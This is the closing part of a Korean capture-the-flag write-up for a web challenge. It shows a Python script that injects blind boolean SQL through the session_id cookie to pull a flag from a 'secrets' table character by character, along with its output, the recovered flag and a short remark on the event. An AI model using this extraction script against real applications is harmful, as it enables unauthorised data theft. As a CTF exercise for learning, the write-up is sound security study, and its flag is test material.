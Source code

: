     while FLAG.find("}") == -1:
        for limit in List:
            GetFlagCookies['session_id'] = f"x' or (select `value` from `secrets` where `type`='flag' limit 0,1) like binary '{FLAG + limit}%' -- '"
            r = requests.get(url, cookies = GetFlagCookies).status_code

            if r == 200:
                FLAG += limit
                print(FLAG)
                break
            elif r == 429:
                time.sleep(10)
    print(FLAG.replace('\_','_'))
    ```

    플래그에 탈취를 성공할 수 있습니다.

    ```
    c
    co
    cod
    code
    codef
    codefe
    codefest{
    codefest{S
    codefest{SH0R
    codefest{SH0R7
    codefest{SH0R7\_FL
    codefest{SH0R7\_FL4
    codefest{SH0R7\_FL4G
    codefest{SH0R7\_FL4G}
    codefest{SH0R7_FL4G}
    ```

``Flag is codefest{SH0R7_FL4G}``

## 후기

이번 CTF는 웹 2개의 문제밖에 없어 아쉬운점도 있었지만 그래도 재밌었다.